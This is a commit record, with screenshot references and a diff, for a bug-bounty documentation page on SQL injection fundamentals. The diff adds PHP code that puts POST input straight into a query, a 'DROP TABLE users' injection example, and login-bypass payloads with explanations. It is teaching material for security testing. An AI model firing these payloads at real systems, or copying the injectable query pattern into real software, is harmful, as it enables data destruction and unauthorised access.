

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/sql-injection-fundamentals.md, in a window 1280 px wide and 1400 px high, scrolled down 3497 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
add basic payloads section to sql injection fundamentals

````diff
--- a/docs/bug-bounty-guide/sql-injection-fundamentals.md
+++ b/docs/bug-bounty-guide/sql-injection-fundamentals.md
@@ -93,14 +93,61 @@
 
 ## SQL Injection
 
-### Auth Bypass
+### Example MySQL query in php
 
-| Payload | Description |
+**Query:**
+```php
+$conn = new mysqli("localhost", "root", "password", "users");
+$searchInput =  $_POST['findUser'];
+$query = "select * from logins where username like '%$searchInput'";
+$result = $conn->query($query);
+```
+
+**Printing results:**
+```php
+while($row = $result->fetch_assoc() ){
+	echo $row["name"]."<br>";
+}
+```
+
+For the above example entering `1'; DROP TABLE users;--` would result in:
+
+```sql
+select * from logins where username like '%1'; DROP TABLE users;--'
+```
+
+### Types of Injection
+
+| Type                | Description                              | Use Case                        |
+|---------------------|------------------------------------------|---------------------------------|
+| In-band: Union-Based| Direct output via UNION query in specific column. | When output is displayed in a readable column. |
+| In-band: Error-Based| Triggers SQL errors to reveal query output. | When errors are shown on front-end. |
+| Blind: Boolean-Based| Uses true/false conditions to infer data. | When no output but page behavior changes. |
+| Blind: Time-Based   | Delays response with Sleep() to infer data. | When no output or behavior change, but delays detectable. |
+| Out-of-band         | Sends output to remote location (e.g., DNS). | When no direct output is accessible. |
+
+**Note:** In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.
+
+###  SQL Injection Payloads URL Encoding
+
+| Payload | URL Encoded |
 |---------|-------------|
-| `admin' or '1'='1` | Basic Auth Bypass |
-| `admin')-- -` | Basic Auth Bypass With comments |
+| '       | %27         |
+| "       | %22         |
+| #       | %23         |
+| ;       | %3B         |
+| )       | %29         |
+| -       | %2D         |
+| =       | %3D         |
 
 ### Auth Bypass Payloads
+
+MySQL evaluates AND before OR, so a query with an OR and a TRUE condition (e.g., `'1'='1`) returns TRUE. Use `admin' or '1'='1` to bypass authentication by ensuring the query evaluates to TRUE while balancing quotes.
+
+| Payload            | Description                     | How It Works                                   |
+|--------------------|---------------------------------|------------------------------------------------|
+| `admin' or '1'='1` | Basic Auth Bypass               | Appends TRUE condition (`'1'='1`) to bypass login check. |
+| `admin')-- -`      | Basic Auth Bypass With Comments | Closes query early with `)` and comments out rest with `--`. |
 
 ### Union Injection
 
````
